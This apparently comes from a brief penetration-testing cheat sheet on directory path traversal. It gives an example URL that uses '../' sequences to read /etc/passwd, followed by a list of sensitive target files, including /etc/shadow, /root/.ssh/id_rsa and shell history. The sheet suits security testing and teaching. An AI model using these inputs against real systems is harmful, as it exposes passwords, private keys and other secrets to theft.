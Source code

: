 # Directory Path Traversal

## Usual web app location: /var/www/html

### Access sensitive files example:

#### 

    http://site.com/get.php?file=../../../etc/passwd

### Files to test:

#### /etc/issue

#### /etc/profile

#### /proc/version

#### /etc/passwd

#### /etc/shadow

#### /root/.bash_history

#### /root/.ssh/id_rsa

#### /var/log/dmessage

#### /var/log/apache2/access.log

#### /var/mail/root

#### C:\boot.ini
